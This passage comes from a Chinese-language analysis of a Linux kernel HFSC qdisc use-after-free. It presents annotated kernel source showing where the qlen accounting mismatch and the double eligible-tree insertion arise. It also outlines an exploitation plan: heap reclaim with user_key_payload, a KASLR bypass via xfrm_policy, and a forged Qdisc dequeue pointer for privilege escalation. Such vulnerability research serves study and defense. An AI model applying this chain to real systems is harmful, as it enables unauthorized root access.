        tclass_notify(net, skb, n, q, new_cl, RTM_NEWTCLASS, extack);  /* 通知变更 */
        /* 若刚刚创建了新类，需进行反向绑定 */
        if (cl != new_cl)
            tc_bind_tclass(q, portid, clid, new_cl);
    }
out:
    return err;
}
```

`hfsc_change_class()` 负责创建或修改 HFSC 类。当 `*arg` 为 0 时，表示需要新建类，函数将分配 `struct hfsc_class` 对象并初始化其成员。该函数是漏洞链条中触发 Flow2 的关键入口。

```c
static int
hfsc_change_class(struct Qdisc *sch, u32 classid, u32 parentid,
                  struct nlattr **tca, unsigned long *arg,
                  struct netlink_ext_ack *extack)
{
    struct hfsc_sched *q = qdisc_priv(sch);              /* 获取 HFSC 私有调度数据 */
    struct hfsc_class *cl = (struct hfsc_class *)*arg;   /* 已存在的类指针 */
    struct hfsc_class *parent = NULL;                    /* 父类指针 */
    struct nlattr *opt = tca[TCA_OPTIONS];               /* 选项属性 */
    struct nlattr *tb[TCA_HFSC_MAX + 1];                 /* 解析后的嵌套属性 */
    struct tc_service_curve *rsc = NULL, *fsc = NULL, *usc = NULL; /* 服务曲线 */
    u64 cur_time;                                        /* 当前时间 */
    int err;                                             /* 错误码 */

    if (opt == NULL)
        return -EINVAL;

    /* 解析嵌套属性，提取 RSC、FSC、USC 参数 */
    err = nla_parse_nested_deprecated(tb, TCA_HFSC_MAX, opt, hfsc_policy,
                                      NULL);
    if (err < 0)
        return err;

    if (tb[TCA_HFSC_RSC]) {                              /* 实时服务曲线 */
        rsc = nla_data(tb[TCA_HFSC_RSC]);
        if (rsc->m1 == 0 && rsc->m2 == 0)
            rsc = NULL;                                  /* 空曲线视为未指定 */
    }

    if (tb[TCA_HFSC_FSC]) {                              /* 公平服务曲线 */
        fsc = nla_data(tb[TCA_HFSC_FSC]);
        if (fsc->m1 == 0 && fsc->m2 == 0)
            fsc = NULL;
    }

    if (tb[TCA_HFSC_USC]) {                              /* 上层服务曲线 */
        usc = nla_data(tb[TCA_HFSC_USC]);
        if (usc->m1 == 0 && usc->m2 == 0)
            usc = NULL;
    }

    if (cl != NULL) {                                    /* 修改已存在的类 */
        int old_flags;

        if (parentid) {                                  /* 校验父类关系 */
            if (cl->cl_parent &&
                cl->cl_parent->cl_common.classid != parentid)
                return -EINVAL;
            if (cl->cl_parent == NULL && parentid != TC_H_ROOT)
                return -EINVAL;
        }
        cur_time = psched_get_time();                    /* 获取当前调度时间 */

        if (tca[TCA_RATE]) {                             /* 若包含速率估计器 */
            err = gen_replace_estimator(&cl->bstats, NULL,
                                        &cl->rate_est,
                                        NULL,
                                        true,
                                        tca[TCA_RATE]);
            if (err)
                return err;
        }

        sch_tree_lock(sch);                              /* 锁定 qdisc 树 */
        old_flags = cl->cl_flags;                        /* 保存旧标志 */

        if (rsc != NULL)
            hfsc_change_rsc(cl, rsc, cur_time);          /* 更新实时曲线 */
        if (fsc != NULL)
            hfsc_change_fsc(cl, fsc);                    /* 更新公平曲线 */
        if (usc != NULL)
            hfsc_change_usc(cl, usc, cur_time);          /* 更新上层曲线 */

        /* ★★★★★ 漏洞点 ★★★★★
         * 若叶队列非空，则进入更新路径。
         * 注意：此处 qlen 可能为负值，但负值同样满足 != 0。
         * 通过前期的 qdisc 创建与删除，目标类的叶 qdisc qlen 可被放大为负值，
         * 从而在 Flow1 尚未执行 init_ed 之前，提前触发 Flow2 的 update_ed，
         * 导致 eltree_insert 被调用两次，最终形成自引用结构。
         */
        if (cl->qdisc->q.qlen != 0) {                    /* 叶队列非空 */
            int len = qdisc_peek_len(cl->qdisc);         /* 窥视队首包长度 */

            if (cl->cl_flags & HFSC_RSC) {               /* 实时类 */
                if (old_flags & HFSC_RSC)
                    update_ed(cl, len);                  /* Flow2：先删除再插入 */
                else
                    init_ed(cl, len);                    /* Flow1：首次插入 */
            }

            if (cl->cl_flags & HFSC_FSC) {               /* 公平类 */
                if (old_flags & HFSC_FSC)
                    update_vf(cl, 0, cur_time);
                else
                    init_vf(cl, len);
            }
        }
        sch_tree_unlock(sch);                            /* 解锁 qdisc 树 */

        return 0;
    }

    if (parentid == TC_H_ROOT)                           /* 根类不可重复创建 */
        return -EEXIST;

    parent = &q->root;                                   /* 默认父类为根类 */
    if (parentid) {
        parent = hfsc_find_class(parentid, sch);         /* 查找指定父类 */
        if (parent == NULL)
            return -ENOENT;
    }

    if (classid == 0 || TC_H_MAJ(classid ^ sch->handle) != 0)
        return -EINVAL;                                  /* 校验类 ID */
    if (hfsc_find_class(classid, sch))
        return -EEXIST;                                  /* 类已存在 */

    if (rsc == NULL && fsc == NULL)
        return -EINVAL;                                  /* 至少需要一条曲线 */

    /* 分配 hfsc_class 对象，内核使用 kzalloc 从 kmalloc-1k 缓存获取内存 */
    cl = kzalloc(sizeof(struct hfsc_class), GFP_KERNEL);
    if (cl == NULL)
        return -ENOBUFS;

    err = tcf_block_get(&cl->block, &cl->filter_list, sch, extack); /* 获取过滤器块 */
    if (err) {
        kfree(cl);
        return err;
    }

    if (tca[TCA_RATE]) {                                 /* 新建速率估计器 */
        err = gen_new_estimator(&cl->bstats, NULL, &cl->rate_est,
                                NULL, true, tca[TCA_RATE]);
        if (err) {
            tcf_block_put(cl->block);
            kfree(cl);
            return err;
        }
    }

    if (rsc != NULL)
        hfsc_change_rsc(cl, rsc, 0);                     /* 初始化实时曲线 */
    if (fsc != NULL)
        hfsc_change_fsc(cl, fsc);                        /* 初始化公平曲线 */
    if (usc != NULL)
        hfsc_change_usc(cl, usc, 0);                     /* 初始化上层曲线 */

    cl->cl_common.classid = classid;                     /* 设置类 ID */
    cl->sched     = q;                                   /* 关联调度器 */
    cl->cl_parent = parent;                              /* 设置父类 */

    /* 为类创建默认叶 qdisc，类型为 pfifo，若失败则使用 noop_qdisc */
    cl->qdisc = qdisc_create_dflt(sch->dev_queue, &pfifo_qdisc_ops,
                                  classid, NULL);
    if (cl->qdisc == NULL)
        cl->qdisc = &noop_qdisc;
    else
        qdisc_hash_add(cl->qdisc, true);                 /* 加入 qdisc 哈希表 */
    INIT_LIST_HEAD(&cl->children);                       /* 初始化子类链表 */
    cl->vt_tree = RB_ROOT;                               /* 初始化虚拟时间树 */
    cl->cf_tree = RB_ROOT;                               /* 初始化曲线树 */

    sch_tree_lock(sch);                                  /* 锁定 qdisc 树 */
    /* 检查内部类是否为误配的 'rt' */
    if (!(parent->cl_flags & HFSC_FSC) && parent != &q->root) {
        NL_SET_ERR_MSG(extack,
                       "Forced curve change on parent 'rt' to 'sc'");
        hfsc_upgrade_rt(parent);                         /* 强制升级父类 */
    }
    qdisc_class_hash_insert(&q->clhash, &cl->cl_common); /* 插入类哈希表 */
    list_add_tail(&cl->siblings, &parent->children);     /* 加入父类子链表 */
    if (parent->level == 0)
        qdisc_purge_queue(parent->qdisc);                /* 清空父类队列 */
    hfsc_adjust_levels(parent);                          /* 调整层次 */
    sch_tree_unlock(sch);                                /* 解锁 qdisc 树 */

    qdisc_class_hash_grow(sch, &q->clhash);              /* 扩展类哈希表 */

    *arg = (unsigned long)cl;                            /* 返回新类指针 */
    return 0;
}
```

##### 2-4-2-2. 释放

删除 HFSC 类通过 `tc_ctl_tclass()` 的 `RTM_DELTCLASS` 分支进入 `tclass_del_notify()`，进而调用 `hfsc_delete_class()` 与 `hfsc_destroy_class()`。这一路径负责释放 `hfsc_class` 对象本身及其叶 qdisc，是 UAF 形成的最后一步。释放后的 UAF 槽位将服务于两个目的：被 `user_key_payload` 回收用于越界读取，配合 `xfrm_policy` 完成 KASLR 绕过；被伪造的 `Qdisc` 回收用于控制流劫持，最终完成权限提升。

```c
static int tclass_del_notify(struct net *net,
                             const struct Qdisc_class_ops *cops,
                             struct sk_buff *oskb, struct nlmsghdr *n,
                             struct Qdisc *q, unsigned long cl,
                             struct netlink_ext_ack *extack)
{
    u32 portid = oskb ? NETLINK_CB(oskb).portid : 0;     /* 发送者端口 ID */
    struct sk_buff *skb;                                 /* 通知用的 skb */
    int err = 0;                                         /* 错误码 */

    if (!cops->delete)
        return -EOPNOTSUPP;                              /* 不支持删除操作 */

    if (rtnl_notify_needed(net, n->nlmsg_flags, RTNLGRP_TC)) {
        skb = alloc_skb(NLMSG_GOODSIZE, GFP_KERNEL);     /* 分配通知 skb */
        if (!skb)
            return -ENOBUFS;

        if (tc_fill_tclass(skb, q, cl, portid, n->nlmsg_seq, 0,
                           RTM_DELTCLASS, extack) < 0) {
            kfree_skb(skb);
            return -EINVAL;
        }
    } else {
        skb = NULL;
    }

    err = cops->delete(q, cl, extack);                   /* 调用具体的删除函数 */
    if (err) {
        kfree_skb(skb);
        return err;
    }

    err = rtnetlink_maybe_send(skb, net, portid, RTNLGRP_TC,
                               n->nlmsg_flags & NLM_F_ECHO); /* 发送通知 */
    return err;
}
```

`hfsc_delete_class()` 执行实际的删除操作，从哈希表与父类链表中移除，并释放叶 qdisc。此时 `sched->eligible` 树中可能仍持有指向该类的 `el_node` 的悬空指针。

```c
static int
hfsc_delete_class(struct Qdisc *sch, unsigned long arg,
                  struct netlink_ext_ack *extack)
{
    struct hfsc_sched *q = qdisc_priv(sch);              /* 获取 HFSC 私有数据 */
    struct hfsc_class *cl = (struct hfsc_class *)arg;    /* 要删除的类 */

    if (cl->level > 0 || qdisc_class_in_use(&cl->cl_common) ||
        cl == &q->root) {
        NL_SET_ERR_MSG(extack, "HFSC class in use");     /* 类正在使用中，不可删除 */
        return -EBUSY;
    }

    sch_tree_lock(sch);                                  /* 锁定 qdisc 树 */

    list_del(&cl->siblings);                             /* 从父类子链表移除 */
    hfsc_adjust_levels(cl->cl_parent);                   /* 调整父类层次 */

    qdisc_purge_queue(cl->qdisc);                        /* 清空叶队列 */
    qdisc_class_hash_remove(&q->clhash, &cl->cl_common); /* 从类哈希表移除 */

    sch_tree_unlock(sch);                                /* 解锁 qdisc 树 */

    hfsc_destroy_class(sch, cl);                         /* 销毁类及其资源 */
    return 0;
}
```

`hfsc_destroy_class()` 释放类持有的资源，包括叶 qdisc 与类本身。此处 `kfree(cl)` 释放的 `hfsc_class` 对象即 UAF 槽位，后续将被 `user_key_payload` 或伪造的 `Qdisc` 回收。

```c
static void
hfsc_destroy_class(struct Qdisc *sch, struct hfsc_class *cl)
{
    struct hfsc_sched *q = qdisc_priv(sch);              /* 获取 HFSC 私有数据 */

    tcf_block_put(cl->block);                            /* 释放过滤器块 */
    qdisc_put(cl->qdisc);                                /* 释放叶 qdisc，走 qdisc_put 路径 */
    gen_kill_estimator(&cl->rate_est);                   /* 销毁速率估计器 */
    if (cl != &q->root)
        kfree(cl);                                       /* 释放 hfsc_class 对象本身，形成 UAF 槽位 */
}
```

#### 2-4-3. Qdisc

##### 2-4-3-1. 申请

类的默认叶 qdisc 通过 `qdisc_create_dflt()` 创建，内部调用 `qdisc_alloc()` 分配 `struct Qdisc` 对象。`qdisc_create_dflt()` 负责模块引用计数与初始化。

```c
struct Qdisc *qdisc_create_dflt(struct netdev_queue *dev_queue,
                                const struct Qdisc_ops *ops,
                                unsigned int parentid,
                                struct netlink_ext_ack *extack)
{
    struct Qdisc *sch;                                   /* 新建的 qdisc */

    /* 增加模块引用计数，防止模块在 qdisc 使用期间被卸载 */
    if (!try_module_get(ops->owner)) {
        NL_SET_ERR_MSG(extack, "Failed to increase module reference counter");
        return NULL;
    }

    sch = qdisc_alloc(dev_queue, ops, extack);           /* 分配并初始化 qdisc */
    if (IS_ERR(sch)) {
        module_put(ops->owner);
        return NULL;
    }
    sch->parent = parentid;                              /* 设置父句柄 */

    /* 调用 qdisc 的 init 回调，若成功则返回 */
    if (!ops->init || ops->init(sch, NULL, extack) == 0) {
        trace_qdisc_create(ops, dev_queue->dev, parentid);
        return sch;
    }

    qdisc_put(sch);                                      /* 初始化失败，释放 qdisc */
    return NULL;
}
```

`qdisc_alloc()` 完成 `struct Qdisc` 的实际内存分配与字段初始化。分配大小由 `sizeof(struct Qdisc)` 与 `ops->priv_size` 共同决定，因此对象可能落在多个 slab 缓存中，具体位置不影响本漏洞的传导链条。在权限提升阶段，伪造的 Qdisc 通过 `user_key_payload` 回收 UAF 槽位后填充，其 `dequeue` 函数指针指向受控地址。

```c
struct Qdisc *qdisc_alloc(struct netdev_queue *dev_queue,
                          const struct Qdisc_ops *ops,
                          struct netlink_ext_ack *extack)
{
    struct Qdisc *sch;                                   /* 新建的 qdisc */
    unsigned int size = sizeof(*sch) + ops->priv_size;   /* 分配大小 */
    int err = -ENOBUFS;                                  /* 默认错误码 */
    struct net_device *dev;                              /* 关联的设备 */

    if (!dev_queue) {
        NL_SET_ERR_MSG(extack, "No device queue given");
        err = -EINVAL;
        goto errout;
    }

    dev = dev_queue->dev;
    /* 从 NUMA 节点分配内存，初始化为零
     * 分配大小由 sizeof(struct Qdisc) 与 ops->priv_size 共同决定，
     * 因此对象可能落在多个 slab 缓存中，具体位置不影响本漏洞的传导链条。
     */
    sch = kzalloc_node(size, GFP_KERNEL, netdev_queue_numa_node_read(dev_queue));

    if (!sch)
        goto errout;                                     /* 分配失败 */

    __skb_queue_head_init(&sch->gso_skb);                /* 初始化 GSO 队列 */
    __skb_queue_head_init(&sch->skb_bad_txq);            /* 初始化坏包队列 */
    gnet_stats_basic_sync_init(&sch->bstats);            /* 初始化基本统计 */
    lockdep_register_key(&sch->root_lock_key);           /* 注册锁依赖键 */
    spin_lock_init(&sch->q.lock);                        /* 初始化队列锁 */
    lockdep_set_class(&sch->q.lock, &sch->root_lock_key);/* 设置锁类 */

    if (ops->static_flags & TCQ_F_CPUSTATS) {            /* 若需要 per-CPU 统计 */
        sch->cpu_bstats =
            netdev_alloc_pcpu_stats(struct gnet_stats_basic_sync);
        if (!sch->cpu_bstats)
            goto errout1;

        sch->cpu_qstats = alloc_percpu(struct gnet_stats_queue);
        if (!sch->cpu_qstats) {
            free_percpu(sch->cpu_bstats);
            goto errout1;
        }
    }

    spin_lock_init(&sch->busylock);                      /* 初始化忙锁 */
    lockdep_set_class(&sch->busylock,
                      dev->qdisc_tx_busylock ?: &qdisc_tx_busylock);

    /* seqlock 与 busylock 作用域相同，用于 NOLOCK qdisc */
    spin_lock_init(&sch->seqlock);                       /* 初始化序列锁 */
    lockdep_set_class(&sch->seqlock,
                      dev->qdisc_tx_busylock ?: &qdisc_tx_busylock);

    sch->ops = ops;                                      /* 关联操作函数集 */
    sch->flags = ops->static_flags;                      /* 设置静态标志 */
    sch->enqueue = ops->enqueue;                         /* 入队函数 */
    sch->dequeue = ops->dequeue;                         /* 出队函数 */
    sch->dev_queue = dev_queue;                          /* 关联设备队列 */
    sch->owner = -1;                                     /* 所有者 */
    netdev_hold(dev, &sch->dev_tracker, GFP_KERNEL);     /* 持有设备引用 */
    refcount_set(&sch->refcnt, 1);                       /* 初始化引用计数 */

    return sch;
errout1:
    lockdep_unregister_key(&sch->root_lock_key);
    kfree(sch);
errout:
    return ERR_PTR(err);
}
```

##### 2-4-3-2. 释放

Qdisc 的释放通过 `qdisc_put()` 触发引用计数递减，当计数归零时调用 `__qdisc_destroy()`，最终通过 `call_rcu()` 延迟释放。`tc_modify_qdisc()` 是修改 qdisc 的入口，其中会调用 `qdisc_graft()` 完成替换。释放后的 Qdisc 槽位是权限提升阶段伪造对象的回收目标之一。

```c
static int tc_modify_qdisc(struct sk_buff *skb, struct nlmsghdr *n,
                           struct netlink_ext_ack *extack)
{
    struct net *net = sock_net(skb->sk);                 /* 当前网络命名空间 */
    struct tcmsg *tcm;                                   /* tcmsg 结构 */
    struct nlattr *tca[TCA_MAX + 1];                     /* 属性数组 */
    struct net_device *dev;                              /* 网络设备 */
    u32 clid;                                            /* 父类 ID */
    struct Qdisc *q, *p;                                 /* qdisc 指针 */
    int err;                                             /* 错误码 */

replay:
    err = nlmsg_parse_deprecated(n, sizeof(*tcm), tca, TCA_MAX,
                                 rtm_tca_policy, extack); /* 解析 netlink 消息 */
    if (err < 0)
        return err;

    tcm = nlmsg_data(n);
    clid = tcm->tcm_parent;
    q = p = NULL;

    dev = __dev_get_by_index(net, tcm->tcm_ifindex);      /* 查找设备 */
    if (!dev)
        return -ENODEV;

    if (clid) {                                           /* 指定了父类 */
        if (clid != TC_H_ROOT) {
            if (clid != TC_H_INGRESS) {
                p = qdisc_lookup(dev, TC_H_MAJ(clid));    /* 查找父 qdisc */
                if (!p) {
                    NL_SET_ERR_MSG(extack, "Failed to find specified qdisc");
                    return -ENOENT;
                }
                q = qdisc_leaf(p, clid);                  /* 获取叶 qdisc */
            } else if (dev_ingress_queue_create(dev)) {
                q = rtnl_dereference(dev_ingress_queue(dev)->qdisc_sleeping);
            }
        } else {
            q = rtnl_dereference(dev->qdisc);             /* 根 qdisc */
        }

        /* 可能是默认 qdisc，忽略 */
        if (q && q->handle == 0)
            q = NULL;

        if (!q || !tcm->tcm_handle || q->handle != tcm->tcm_handle) {
            if (tcm->tcm_handle) {                        /* 指定了句柄 */
                if (q && !(n->nlmsg_flags & NLM_F_REPLACE)) {
                    NL_SET_ERR_MSG(extack, "NLM_F_REPLACE needed to override");
                    return -EEXIST;
                }
                if (TC_H_MIN(tcm->tcm_handle)) {
                    NL_SET_ERR_MSG(extack, "Invalid minor handle");
                    return -EINVAL;
                }
                q = qdisc_lookup(dev, tcm->tcm_handle);   /* 查找指定 qdisc */
                if (!q)
                    goto create_n_graft;
                if (q->parent != tcm->tcm_parent) {
                    NL_SET_ERR_MSG(extack, "Cannot move an existing qdisc to a different parent");
                    return -EINVAL;
                }
                if (n->nlmsg_flags & NLM_F_EXCL) {
                    NL_SET_ERR_MSG(extack, "Exclusivity flag on, cannot override");
                    return -EEXIST;
                }
                if (tca[TCA_KIND] &&
                    nla_strcmp(tca[TCA_KIND], q->ops->id)) {
                    NL_SET_ERR_MSG(extack, "Invalid qdisc name");
                    return -EINVAL;
                }
                if (q->flags & TCQ_F_INGRESS) {
                    NL_SET_ERR_MSG(extack,
                                   "Cannot regraft ingress or clsact Qdiscs");
                    return -EINVAL;
                }
                if (q == p ||
                    (p && check_loop(q, p, 0))) {
                    NL_SET_ERR_MSG(extack, "Qdisc parent/child loop detected");
                    return -ELOOP;
                }
                if (clid == TC_H_INGRESS) {
                    NL_SET_ERR_MSG(extack, "Ingress cannot graft directly");
                    return -EINVAL;
                }
                qdisc_refcount_inc(q);                    /* 增加引用计数 */
                goto graft;
            } else {
                if (!q)
                    goto create_n_graft;

                /* 以下逻辑决定是修改现有 qdisc 还是创建/嫁接新 qdisc */
                if (tca[TCA_KIND] &&
                    nla_strcmp(tca[TCA_KIND], q->ops->id)) {
                    if (req_create_or_replace(n) ||
                        req_create_exclusive(n))
                        goto create_n_graft;
                    else if (req_change(n))
                        goto create_n_graft2;
                }
            }
        }
    } else {
        if (!tcm->tcm_handle) {
            NL_SET_ERR_MSG(extack, "Handle cannot be zero");
            return -EINVAL;
        }
        q = qdisc_lookup(dev, tcm->tcm_handle);
    }

    /* 修改 qdisc 参数 */
    if (!q) {
        NL_SET_ERR_MSG(extack, "Specified qdisc not found");
        return -ENOENT;
    }
    if (n->nlmsg_flags & NLM_F_EXCL) {
        NL_SET_ERR_MSG(extack, "Exclusivity flag on, cannot modify");
        return -EEXIST;
    }
    if (tca[TCA_KIND] && nla_strcmp(tca[TCA_KIND], q->ops->id)) {
        NL_SET_ERR_MSG(extack, "Invalid qdisc name");
        return -EINVAL;
    }
    err = qdisc_change(q, tca, extack);                   /* 修改 qdisc 参数 */
    if (err == 0)
        qdisc_notify(net, skb, n, clid, NULL, q, extack); /* 发送通知 */
    return err;

create_n_graft:
    if (!(n->nlmsg_flags & NLM_F_CREATE)) {
        NL_SET_ERR_MSG(extack, "Qdisc not found. To create specify NLM_F_CREATE flag");
        return -ENOENT;
    }
create_n_graft2:
    if (clid == TC_H_INGRESS) {
        if (dev_ingress_queue(dev)) {
            q = qdisc_create(dev, dev_ingress_queue(dev),
                             tcm->tcm_parent, tcm->tcm_parent,
                             tca, &err, extack);
        } else {
            NL_SET_ERR_MSG(extack, "Cannot find ingress queue for specified device");
            err = -ENOENT;
        }
    } else {
        struct netdev_queue *dev_queue;

        if (p && p->ops->cl_ops && p->ops->cl_ops->select_queue)
            dev_queue = p->ops->cl_ops->select_queue(p, tcm);
        else if (p)
            dev_queue = p->dev_queue;
        else
            dev_queue = netdev_get_tx_queue(dev, 0);

        q = qdisc_create(dev, dev_queue,
                         tcm->tcm_parent, tcm->tcm_handle,
                         tca, &err, extack);              /* 创建新 qdisc */
    }
    if (q == NULL) {
        if (err == -EAGAIN)
            goto replay;
        return err;
    }

graft:
    err = qdisc_graft(dev, p, skb, n, clid, q, NULL, extack); /* 嫁接 qdisc */
    if (err) {
        if (q)
            qdisc_put(q);
        return err;
    }

    return 0;
}
```

`qdisc_graft()` 完成 qdisc 的嫁接操作，并在替换时调用 `notify_and_destroy()` 释放旧的 qdisc。

```c
static int qdisc_graft(struct net_device *dev, struct Qdisc *parent,
                       struct sk_buff *skb, struct nlmsghdr *n, u32 classid,
                       struct Qdisc *new, struct Qdisc *old,
                       struct netlink_ext_ack *extack)
{
    struct Qdisc *q = old;                                /* 旧 qdisc */
    struct net *net = dev_net(dev);                       /* 网络命名空间 */

    if (parent == NULL) {                                 /* 嫁接根 qdisc */
        unsigned int i, num_q, ingress;
        struct netdev_queue *dev_queue;

        ingress = 0;
        num_q = dev->num_tx_queues;
        if ((q && q->flags & TCQ_F_INGRESS) ||
            (new && new->flags & TCQ_F_INGRESS)) {
            ingress = 1;
            dev_queue = dev_ingress_queue(dev);
            if (!dev_queue) {
                NL_SET_ERR_MSG(extack, "Device does not have an ingress queue");
                return -ENOENT;
            }

            q = rtnl_dereference(dev_queue->qdisc_sleeping);

            if (!qdisc_refcount_dec_if_one(q)) {
                NL_SET_ERR_MSG(extack,
                               "Current ingress or clsact Qdisc has ongoing filter requests");
                return -EBUSY;
            }
        }

        if (dev->flags & IFF_UP)
            dev_deactivate(dev);                          /* 停用设备 */

        qdisc_offload_graft_root(dev, new, old, extack);

        if (new && new->ops->attach && !ingress)
            goto skip;

        if (!ingress) {
            for (i = 0; i < num_q; i++) {
                dev_queue = netdev_get_tx_queue(dev, i);
                old = dev_graft_qdisc(dev_queue, new);    /* 替换设备队列 qdisc */

                if (new && i > 0)
                    qdisc_refcount_inc(new);
                qdisc_put(old);                           /* 释放旧 qdisc */
            }
        } else {
            old = dev_graft_qdisc(dev_queue, NULL);

            qdisc_notify(net, skb, n, classid, old, new, extack);
            qdisc_destroy(old);

            dev_graft_qdisc(dev_queue, new);
        }

skip:
        if (!ingress) {
            old = rtnl_dereference(dev->qdisc);
            if (new && !new->ops->attach)
                qdisc_refcount_inc(new);
            rcu_assign_pointer(dev->qdisc, new ? : &noop_qdisc);

            notify_and_destroy(net, skb, n, classid, old, new, extack);

            if (new && new->ops->attach)
                new->ops->attach(new);
        }

        if (dev->flags & IFF_UP)
            dev_activate(dev);                            /* 激活设备 */
    } else {                                              /* 嫁接类 qdisc */
        const struct Qdisc_class_ops *cops = parent->ops->cl_ops;
        unsigned long cl;
        int err;

        if (new && (new->flags & TCQ_F_NOLOCK) && !(parent->flags & TCQ_F_NOLOCK))
            qdisc_clear_nolock(new);

        if (!cops || !cops->graft)
            return -EOPNOTSUPP;

        cl = cops->find(parent, classid);                 /* 查找类 */
        if (!cl) {
            NL_SET_ERR_MSG(extack, "Specified class not found");
            return -ENOENT;
        }

        if (new && new->ops == &noqueue_qdisc_ops) {
            NL_SET_ERR_MSG(extack, "Cannot assign noqueue to a class");
            return -EINVAL;
        }

        if (new &&
            !(parent->flags & TCQ_F_MQROOT) &&
            rcu_access_pointer(new->stab)) {
            NL_SET_ERR_MSG(extack, "STAB not supported on a non root");
            return -EINVAL;
        }
        err = cops->graft(parent, cl, new, &old, extack); /* 调用 graft 回调 */
        if (err)
            return err;
        notify_and_destroy(net, skb, n, classid, old, new, extack);
    }
    return 0;
}
```

`notify_and_destroy()` 负责通知并释放旧 qdisc：

```c
static void notify_and_destroy(struct net *net, struct sk_buff *skb,
                               struct nlmsghdr *n, u32 clid,
                               struct Qdisc *old, struct Qdisc *new,
                               struct netlink_ext_ack *extack)
{
    if (new || old)
        qdisc_notify(net, skb, n, clid, old, new, extack); /* 发送通知 */

    if (old)
        qdisc_put(old);                                   /* 释放旧 qdisc */
}
```

`qdisc_put()` 递减引用计数，归零时调用 `__qdisc_destroy()`：

```c
void qdisc_put(struct Qdisc *qdisc)
{
    if (!qdisc)
        return;

    if (qdisc->flags & TCQ_F_BUILTIN ||
        !refcount_dec_and_test(&qdisc->refcnt))           /* 递减引用计数 */
        return;

    __qdisc_destroy(qdisc);                               /* 计数归零，销毁 qdisc */
}
```

`__qdisc_destroy()` 完成资源清理，并通过 `call_rcu()` 安排延迟释放：

```c
static void __qdisc_destroy(struct Qdisc *qdisc)
{
    const struct Qdisc_ops  *ops = qdisc->ops;            /* 操作函数集 */
    struct net_device *dev = qdisc_dev(qdisc);            /* 关联设备 */

#ifdef CONFIG_NET_SCHED
    qdisc_hash_del(qdisc);                                /* 从哈希表移除 */

    qdisc_put_stab(rtnl_dereference(qdisc->stab));        /* 释放 STAB */
#endif
    gen_kill_estimator(&qdisc->rate_est);                 /* 销毁速率估计器 */

    qdisc_reset(qdisc);                                   /* 重置 qdisc */

    if (ops->destroy)
        ops->destroy(qdisc);                              /* 调用销毁回调 */

    lockdep_unregister_key(&qdisc->root_lock_key);        /* 注销锁依赖键 */
    module_put(ops->owner);                               /* 减少模块引用 */
    netdev_put(dev, &qdisc->dev_tracker);                 /* 释放设备引用 */

    trace_qdisc_destroy(qdisc);                           /* 跟踪点 */

    call_rcu(&qdisc->rcu, qdisc_free_cb);                 /* RCU 延迟释放 */
}
```

RCU 回调最终释放内存：

```c
static void qdisc_free_cb(struct rcu_head *head)
{
    struct Qdisc *q = container_of(head, struct Qdisc, rcu); /* 获取 qdisc */

    qdisc_free(q);                                        /* 实际释放 */
}

void qdisc_free(struct Qdisc *qdisc)
{
    if (qdisc_is_percpu_stats(qdisc)) {                   /* 释放 per-CPU 统计 */
        free_percpu(qdisc->cpu_bstats);
        free_percpu(qdisc->cpu_qstats);
    }

    kfree(qdisc);                                         /* 释放 qdisc 内存 */
}
```

#### 2-4-4. 入队出队

##### 2-4-4-1. 入队

数据包入队从 `dev_qdisc_enqueue()` 开始，调用 qdisc 的 `enqueue` 回调，对于 HFSC 即为 `hfsc_enqueue()`。该函数中 `err != NET_XMIT_SUCCESS` 分支直接返回，导致父 qdisc 的 `qlen` 不增加，是计数偏差的直接来源。

```c
static int dev_qdisc_enqueue(struct sk_buff *skb, struct Qdisc *q,
                             struct sk_buff **to_free,
                             struct netdev_queue *txq)
{
    int rc;                                               /* 返回值 */

    rc = q->enqueue(skb, q, to_free) & NET_XMIT_MASK;     /* 调用入队回调 */
    if (rc == NET_XMIT_SUCCESS)
        trace_qdisc_enqueue(q, txq, skb);                 /* 跟踪点 */
    return rc;
}
```

`hfsc_enqueue()` 完成分类、叶队列入队以及 `init_ed()` 的调用。

```c
static int
hfsc_enqueue(struct sk_buff *skb, struct Qdisc *sch, struct sk_buff **to_free)
{
    unsigned int len = qdisc_pkt_len(skb);                /* 数据包长度 */
    struct hfsc_class *cl;                                /* 目标类 */
    int err;                                              /* 返回值 */
    bool first;                                           /* 叶队列此前是否为空 */

    cl = hfsc_classify(skb, sch, &err);                   /* 分类到具体类 */
    if (cl == NULL) {                                     /* 分类失败 */
        if (err & __NET_XMIT_BYPASS)
            qdisc_qstats_drop(sch);                       /* 更新丢弃统计 */
        __qdisc_drop(skb, to_free);                       /* 丢弃数据包 */
        return err;
    }

    first = !cl->qdisc->q.qlen;                           /* 记录叶队列是否为空 */
    err = qdisc_enqueue(skb, cl->qdisc, to_free);         /* 调用叶队列入队 */
    if (unlikely(err != NET_XMIT_SUCCESS)) {              /* 入队失败或拥塞 */
        if (net_xmit_drop_count(err)) {                   /* 需要计数丢弃 */
            cl->qstats.drops++;
            qdisc_qstats_drop(sch);
        }
        /* ★★★★★ 漏洞点 ★★★★★
         * 当叶队列返回 NET_XMIT_CN 时，直接 return err，
         * 不会执行下方的 sch->q.qlen++。
         * 子 qdisc 的 qlen 已因 qdisc_enqueue_tail 增加 1，
         * 父 qdisc 的 qlen 保持不变，父子计数偏差由此产生。
         */
        return err;
    }

    if (first) {                                          /* 叶队列此前为空 */
        if (cl->cl_flags & HFSC_RSC)
            init_ed(cl, len);                             /* 实时类：插入 eligible 树 */
        if (cl->cl_flags & HFSC_FSC)
            init_vf(cl, len);                             /* 公平类：插入 vttree */
        /*
         * 若这是第一个数据包，隔离队首，使得在首次出队操作之前
         * 可能发生的队首丢弃不会使截止期失效。
         */
        if (cl->cl_flags & HFSC_RSC)
            cl->qdisc->ops->peek(cl->qdisc);              /* 窥视并隔离队首 */
    }

    sch->qstats.backlog += len;                           /* 父 qdisc 积压增加 */
    sch->q.qlen++;                                        /* 父 qdisc 的 qlen 递增 */

    return NET_XMIT_SUCCESS;
}
```

`init_ed()` 计算 eligible 时间与截止期，并将类插入 `eligible` 红黑树。在漏洞场景中，该函数可能被提前调用，导致 `el_node` 被重复插入。

```c
static void
init_ed(struct hfsc_class *cl, unsigned int next_len)
{
    u64 cur_time = psched_get_time();                     /* 当前调度时间 */

    /* 更新截止期曲线 */
    rtsc_min(&cl->cl_deadline, &cl->cl_rsc, cur_time, cl->cl_cumul);

    /*
     * 更新 eligible 曲线。
     * 对于凹曲线，它等于截止期曲线；
     * 对于凸曲线，它是一条斜率为 m2 的线性曲线。
     */
    cl->cl_eligible = cl->cl_deadline;
    if (cl->cl_rsc.sm1 <= cl->cl_rsc.sm2) {
        cl->cl_eligible.dx = 0;
        cl->cl_eligible.dy = 0;
    }

    /* 计算 e 与 d */
